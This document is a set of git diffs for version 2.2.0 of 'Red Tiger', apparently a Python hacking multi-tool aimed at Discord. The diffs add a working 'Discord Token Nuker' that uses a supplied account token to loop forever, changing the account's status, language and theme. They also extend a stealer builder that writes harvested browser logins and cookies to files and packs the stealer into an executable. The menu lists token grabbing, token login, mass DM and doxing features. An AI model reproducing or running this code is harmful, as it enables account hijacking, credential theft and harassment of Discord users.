

2.2.0

diff --git a/Settings/Setup.py b/Settings/Setup.py
@@ -15,96 +15,95 @@ print("""
  			    ░        ░  ░   ░                 ░        ░    ░  ░   ░     
 
 """)
-
-nom_module = 'selenium'
 try:
- import selenium
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
+        nom_module = 'selenium'
+        try:
+         import selenium
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
         
 
-nom_module = 'colorama'
-try:
- import colorama
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
+        nom_module = 'colorama'
+        try:
+         import colorama
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
 
-nom_module = 'time'
-try:
- import time
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
+        nom_module = 'time'
+        try:
+         import time
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
 
-nom_module = 'requests'
-try:
- import requests
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
+        nom_module = 'requests'
+        try:
+         import requests
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
 
-nom_module = 'json'
-try:
- import json
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
+        nom_module = 'json'
+        try:
+         import json
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
 
-nom_module = 'random'
-try:
- import random
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
+        nom_module = 'random'
+        try:
+         import random
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
 
-nom_module = 'string'
-try:
- import string
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
+        nom_module = 'string'
+        try:
+         import string
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
     
-nom_module = 'ctypes'
-try:
- import ctypes
+        nom_module = 'ctypes'
+        try:
+         import ctypes
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
+
+        nom_module = 'base64'
+        try:
+         import base64
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
+
+        nom_module = 'threading'
+        try:
+         import threading
+        except:
+         subprocess.check_call(['pip', 'install', nom_module]) 
+
+        nom_module = 'psutil'
+        try:
+         import psutil
+        except:
+         subprocess.check_call(['pip', 'install', nom_module])
+
+
+        nom_module = 'bs4'
+        try:
+         import bs4
+        except:
+         subprocess.check_call(['pip', 'install', nom_module])
+
+        nom_module = 'webbrowser'
+        try:
+         import webbrowser
+        except:
+         subprocess.check_call(['pip', 'install', nom_module])
+
+        nom_module = 'itertools'
+        try:
+         from itertools import cycle
+        except:
+         subprocess.check_call(['pip', 'install', nom_module])
+
+        from Program.Config.Config import Reset
+        Reset()
 except:
- subprocess.check_call(['pip', 'install', nom_module]) 
-
-nom_module = 'base64'
-try:
- import base64
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
-
-nom_module = 'threading'
-try:
- import threading
-except:
- subprocess.check_call(['pip', 'install', nom_module]) 
-
-
-nom_module = 'psutil'
-try:
-        subprocess.check_call(['pip', 'install', nom_module])
-        print(f"Le module {nom_module} a été installé avec succès.")
-except subprocess.CalledProcessError as e:
-        print(f"Erreur lors de l'installation du module {nom_module}. Code d'erreur : {e.returncode}")
-
-nom_module = 'pyinstaller'
-try:
-        subprocess.check_call(['pip', 'install', nom_module])
-        print(f"Le module {nom_module} a été installé avec succès.")
-except subprocess.CalledProcessError as e:
-        print(f"Erreur lors de l'installation du module {nom_module}. Code d'erreur : {e.returncode}")
-
-nom_module = 'auto-py-to-exe'
-try:
-        subprocess.check_call(['pip', 'install', nom_module])
-        print(f"Le module {nom_module} a été installé avec succès.")
-except subprocess.CalledProcessError as e:
-        print(f"Erreur lors de l'installation du module {nom_module}. Code d'erreur : {e.returncode}")
-
-nom_module = 'bs4'
-try:
-        subprocess.check_call(['pip', 'install', nom_module])
-        print(f"Le module {nom_module} a été installé avec succès.")
-except subprocess.CalledProcessError as e:
-        print(f"Erreur lors de l'installation du module {nom_module}. Code d'erreur : {e.returncode}")
-        
-from Program.Config.Config import Reset
-Reset()
+        print("[X] | Python is not installed with the \"PATH\" option !!")
+        os.system("pause")

diff --git a/Settings/Program/DiscordTokenNuker.py b/Settings/Program/DiscordTokenNuker.py
@@ -1,0 +1,70 @@
+from Config.Config import *
+import requests
+import time
+import requests
+import time
+from itertools import cycle
+import random
+
+Title("Discord Token Nuker")
+
+
+token = input(f"{color.RED}\n[?] | Token -> {color.RESET}")
+
+headers = {'Authorization': token, 'Content-Type': 'application/json'}
+r = requests.get('https://discord.com/api/v8/users/@me', headers=headers)
+if r.status_code == 200:
+    ()
+else:
+    ErrorToken()
+
+default_status = f"Nuking By {github_tool}"
+custom_status = input(f"{color.RED}[?] | Enter Custom Status -> {color.RESET}")
+statues = [default_status]
+custom_status = f"{custom_status} | Red Tiger"
+      
+modes = cycle(["light", "dark"])
+
+
+while True:
+
+    CustomStatus_default = {"custom_status": {"text": default_status}}
+    try:
+        r = requests.patch("https://discord.com/api/v9/users/@me/settings", headers=headers, json=CustomStatus_default)
+        print(f"{color.RED}[+] | Status Changed | \"{color.WHITE}{default_status}{color.RED}\"")
+    except Exception as e:
+        print(f"{color.RED}[X] | Error: \"{color.WHITE}{e}{color.RED}\"")
+
+    for _ in range(5):
+
+        random_language = random.choice(['ja', 'zh-TW', 'ko', 'zh-CN', 'th', 'uk', 'ru', 'el', 'cs'])
+        setting = {'locale': random_language}
+        requests.patch("https://discord.com/api/v7/users/@me/settings", headers=headers, json=setting)
+        print(f"{color.RED}[+] | Language Changed | \"{color.WHITE}{random_language}{color.RED}\"")
+    
+        theme = next(modes)
+        setting = {'theme': theme}
+        requests.patch("https://discord.com/api/v8/users/@me/settings", headers=headers, json=setting)
+        print(f"{color.RED}[+] | Theme Changed | \"{color.WHITE}{theme}{color.RED}\"")
+        time.sleep(0.6)
+
+    CustomStatus_custom = {"custom_status": {"text": custom_status}}
+    try:
+        r = requests.patch("https://discord.com/api/v9/users/@me/settings", headers=headers, json=CustomStatus_custom)
+        print(f"{color.RED}[+] | Status Changed | \"{color.WHITE}{custom_status}{color.RED}\"")
+    except Exception as e:
+        print(f"{color.RED}[X] | Error: \"{color.WHITE}{e}{color.RED}\"")
+    
+    for _ in range(5):
+
+        random_language = random.choice(['ja', 'zh-TW', 'ko', 'zh-CN', 'th', 'uk', 'ru', 'el', 'cs'])
+        setting = {'locale': random_language}
+        requests.patch("https://discord.com/api/v7/users/@me/settings", headers=headers, json=setting)
+        print(f"{color.RED}[+] | Language Changed | \"{color.WHITE}{random_language}{color.RED}\"")
+    
+        theme = next(modes)
+        setting = {'theme': theme}
+        requests.patch("https://discord.com/api/v8/users/@me/settings", headers=headers, json=setting)
+        print(f"{color.RED}[+] | Theme Changed | \"{color.WHITE}{theme}{color.RED}\"")
+        time.sleep(0.6)
+

diff --git a/Settings/Start.py b/Settings/Start.py
@@ -1,9 +1,9 @@
-from Program.Config.Config import *
+try:
+ from Program.Config.Config import *
 
-import os
-import time
+ import os
 
-while True:
+ while True:
    os.system("cls")
    Title("Menu")
 
@@ -30,7 +30,7 @@ while True:
    {color.WHITE}[{color.RED}02{color.WHITE}] {color.RED}->{color.WHITE} Web Site                       {color.WHITE}[{color.RED}12{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Generator        {color.WHITE}[{color.RED}22{color.WHITE}] {color.RED}->{color.WHITE} Discord Nitro Generator
    {color.WHITE}[{color.RED}03{color.WHITE}] {color.RED}->{color.WHITE} Ip Localisation                {color.WHITE}[{color.RED}13{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Info             {color.WHITE}[{color.RED}23{color.WHITE}] {color.RED}->{color.WHITE} Discord Nuker Bot (soon)
    {color.WHITE}[{color.RED}04{color.WHITE}] {color.RED}->{color.WHITE} Ip Pinger                      {color.WHITE}[{color.RED}14{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Login            {color.WHITE}[{color.RED}24{color.WHITE}] {color.RED}->{color.WHITE} Dox Create
-   {color.WHITE}[{color.RED}05{color.WHITE}] {color.RED}->{color.WHITE} Ip Generator                   {color.WHITE}[{color.RED}15{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Nuker (soon)     {color.WHITE}[{color.RED}25{color.WHITE}] {color.RED}->{color.WHITE}
+   {color.WHITE}[{color.RED}05{color.WHITE}] {color.RED}->{color.WHITE} Ip Generator                   {color.WHITE}[{color.RED}15{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Nuker            {color.WHITE}[{color.RED}25{color.WHITE}] {color.RED}->{color.WHITE}
    {color.WHITE}[{color.RED}06{color.WHITE}] {color.RED}->{color.WHITE} Discord/System/Browser Grab    {color.WHITE}[{color.RED}16{color.WHITE}] {color.RED}->{color.WHITE} Discord Mass Dm                {color.WHITE}[{color.RED}26{color.WHITE}] {color.RED}->{color.WHITE}
    {color.WHITE}[{color.RED}07{color.WHITE}] {color.RED}->{color.WHITE} Discord Webhook Generator      {color.WHITE}[{color.RED}17{color.WHITE}] {color.RED}->{color.WHITE} Discord House Changer          {color.WHITE}[{color.RED}27{color.WHITE}] {color.RED}->{color.WHITE}
    {color.WHITE}[{color.RED}08{color.WHITE}] {color.RED}->{color.WHITE} Discord Webhook Info           {color.WHITE}[{color.RED}18{color.WHITE}] {color.RED}->{color.WHITE} Discord Status Changer         {color.WHITE}[{color.RED}28{color.WHITE}] {color.RED}->{color.WHITE}
@@ -95,7 +95,9 @@ while True:
       StartProgram("")
    elif choice in ['']:
       StartProgram("")
-
+except:
+   file = 'python ./Settings/Setup.py'
+   subprocess.run(file, shell=True)
 
 
 

diff --git a/Settings/Program/StealerCreate.py b/Settings/Program/StealerCreate.py
@@ -3,7 +3,6 @@ from Config.Config import *
 import random
 import os
 import subprocess
-import time
 from tkinter import Tk, filedialog
 
 Title("Discord/System/Browser Grab")
@@ -1058,7 +1057,7 @@ class Upload:
     def write_files(self):
         os.makedirs(f"Browsers_{username_pc}", exist_ok=True)
         if __LOGINS__:
-            with open("\\logins.txt", "w", encoding="utf-8") as f:
+            with open(f"Browsers_{username_pc}\\browsers_{username_pc}_logins.txt", "w", encoding="utf-8") as f:
                 f.write('\n'.join(str(x) for x in __LOGINS__))
 
         if __COOKIES__:
@@ -1451,5 +1450,23 @@ if icone in ['y', 'Y', 'Yes', 'yes', 'oui', 'Oui']:
 else: 
  convert_to_exe(file_python, path_destination)
 
+print(f"{color.RED}[!] | Removing temporary files from conversion..{color.RESET}")
+try:
+    directory = os.getcwd()
+    shutil.rmtree(f"{directory}/build")
+    os.remove(f"{name_file}.spec")
+    os.remove(file_text)
+    os.remove(file_python)
+    print(f"{color.RED}[!] | Temporary file removed.{color.RESET}")
+except:
+   print(f"{color.RED}[!] | Temporary file not removed.{color.RESET}")
+
+try:
+    print(f"{color.RED}[!] | Open \"{color.WHITE}{path_destination}{color.RED}\"")
+    path = directory + "/1-File-Create"
+    path = os.path.realpath(path)
+    os.startfile(path)
+except:
+   ()
 Continue()
 Reset()

diff --git a/Settings/Program/ToolInfo.py b/Settings/Program/ToolInfo.py
@@ -3,13 +3,14 @@ from Config.Config import *
 Title("Info")
 
 LAPprint(f"""\n{color.RED}Informations:
-{color.YELLOW}Name Tool     :  {color.CYAN}{name_tool}
-{color.YELLOW}Version       :  {color.CYAN}{version_tool}
-{color.YELLOW}Coding        :  {color.CYAN}{coding_tool}
-{color.YELLOW}Language      :  {color.CYAN}{language_tool}
-{color.YELLOW}By            :  {color.CYAN}{creator}
-{color.YELLOW}Discord [02]  :  {color.CYAN}{discord}
-{color.YELLOW}Site    [02]  :  {color.CYAN}{website}
+{color.RED}Name Tool     :  {color.WHITE}{name_tool}
+{color.RED}Version       :  {color.WHITE}{version_tool}
+{color.RED}Coding        :  {color.WHITE}{coding_tool}
+{color.RED}Language      :  {color.WHITE}{language_tool}
+{color.RED}By            :  {color.WHITE}{creator}
+{color.RED}Discord [02]  :  {color.WHITE}{discord_server}
+{color.RED}Site    [02]  :  {color.WHITE}{website}
+{color.RED}GitHub  [02]  :  {color.WHITE}{github_tool}
 """ + color.RESET)
 
 Continue()

diff --git a/Settings/Program/Config/Config.py b/Settings/Program/Config/Config.py
@@ -4,10 +4,9 @@ import subprocess
 import os
 import time
 import sys
-import shutil
 
 name_tool = "Red Tiger"
-version_tool = "v2.1.0"
+version_tool = "v2.2.0"
 coding_tool = "Python"
 language_tool = "EN"
 creator = "FluzyTeck"

diff --git a/Settings/Program/DiscordWebhookCreate.py b/Settings/Program/DiscordWebhookCreate.py
@@ -2,7 +2,6 @@ from Config.Config import *
 
 import requests
 import json
-import time
 
 Title("Discord Webhook Create")
 
